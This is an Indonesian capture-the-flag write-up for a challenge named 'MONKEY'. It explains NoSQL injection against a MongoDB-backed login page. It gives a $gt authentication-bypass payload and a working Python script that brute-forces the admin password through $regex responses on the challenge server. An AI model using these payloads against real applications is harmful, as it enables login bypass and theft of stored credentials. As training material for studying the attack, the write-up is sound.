 # **MONKEY**

NoSQL injection adalah serangan yang ditujukan untuk melanggar keamanan aplikasi yang menggunakan database NoSQL. Serangan ini mirip dengan serangan SQL injection, tetapi ditargetkan pada database NoSQL yang menggunakan model datanya yang berbeda dengan database relasional.

Dalam serangan NoSQL injection, penyerang mencoba memanipulasi atau menyisipkan data yang tidak valid atau berbahaya ke dalam permintaan atau operasi database NoSQL. Tujuan utama serangan ini adalah untuk mendapatkan akses yang tidak sah ke data sensitif atau merusak integritas data dalam database NoSQL.
## **About the challenge**
Pada Challenge ini, Probleset meminta pemain untuk login sebagai admin dan memberikan halaman login serta akun guest:guest untuk masuk.

![monkey](./image/monkey.PNG)
## **Solution**
Saya mencoba login dan hanya muncul pesan "Welcome, guest". Ditambah dengan gambar monyet yang sedikit ngeselin. Tujuan saya adalah untuk login sebagai admin. Setelah saya login sebagai admin, tidak ada flag yang tertera. Tempat injeksi yang mungkin adalah halaman login.

Tentu saja hal pertama yang saya lakukan adalah injeksi SQL, tetapi setelah mencoba-coba dengan halaman login untuk beberapa waktu, saya mengerti bahwa itu tidak ada hubungannya dengan SQL. Cara selanjutnya adalah mencoba NoSQL dan kemudian saya mendapatkan hasil yang sangat menarik. Dari injeksi awal, tampaknya basis data backend menggunakan MongoDB dan saya memutuskan untuk membaca sedikit lebih banyak tentangnya.

Secara sederhana, MongoDB bekerja seperti ini:

Request: ```login.php?user=admin&password=1```

```php
$collection->find(array(
    "username" => "admin",
    "password" => "1"
));
```
---------------------------
Username dan password dikumpulkan dari data yang masuk dan database langsung dicari menggunakan data tersebut. 
Lalu bagaimana jika kita dapat melewatkan objek atau array?

Request: ```login.php?user[$gt]=&password[$gt]=```
```php
$collection->find(array(
    "username" => array("$gt" => 1),
    "password" => array("$gt" => 1)
));
```
Ini akan menghindari skema Autentikasi dan akan memasukkan kita langsung ke akun pertama di database, yaitu admin! Jadi sekarang kita sudah masuk sebagai admin! Tetapi flag-nya adalah password admin jadi saya perlu mengekstraknya. Saya mencari di Google cara mengekstrak data tetapi tidak memberi saya banyak pilihan. Kemudian saya mengetahui tentang $regex yang digunakan untuk membandingkan karakter password satu per satu. Jadi berikut adalah logikanya:

saya menginisiasi permintaan dengan ```user=admin&password[$regex]=F.*```. Anda dapat melihat bahwa ini memberikan pengalihan ```302``` karena password dimulai dengan F (karena password adalah flag dan sesuai dengan aturan, flag dimulai dengan ```ForestyHC```). Untuk semua karakter lainnya, itu memberikan kode status ```200```. saya dapat dengan mudah mengotomatiskan ini untuk menemukan sisa password.

saya menggunakan script dibawah ini
```python
import requests
import string

# We are sure that password is the flag which starts with "TWCTF{"
# and ends with "}"

flag = "ForestyHC{"
url = "http://103.167.136.89:10002/"

# Each time a 302 redirect is seen, we should restart the loop

restart = True

while restart:
    restart = False

    # Characters like *, ., &, and + has to be avoided because we use regex

    for i in string.ascii_letters + string.digits + "!@#$%^()@_{}":
        payload = flag + i
        post_data = {'username': 'admin', 'password[$regex]': payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)

        # A correct password means we get a 302 redirect

        if r.status_code == 302:
            print(payload)
            restart = True
            flag = payload

            # Exit if "}" gives a valid redirect

            if i == "}":
                print("\nFlag: " + flag)

                exit(0)
            break
```
Skrip berfungsi sebagai berikut:

1) Karena kata sandi adalah flag, kita yakin bahwa kata sandi dimulai dengan ```ForestyHC{```sehingga hal ini dapat digunakan untuk memverifikasi apakah yang saya lakukan adalah benar.

2) Saya berasumsi bahwa karakter seperti ```+, * dan &``` tidak akan ada karena dapat mengganggu Regex (dan hokinya saya tidak ada!)

3) Skrip berhenti ketika saya mendapatkan pengalihan ```302``` ketika karakternya adalah } karena saya yakin bahwa karakter akhir akan menjadi } (lagi, karena kata sandi sama dengan flagnya).

And we got flag
```
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
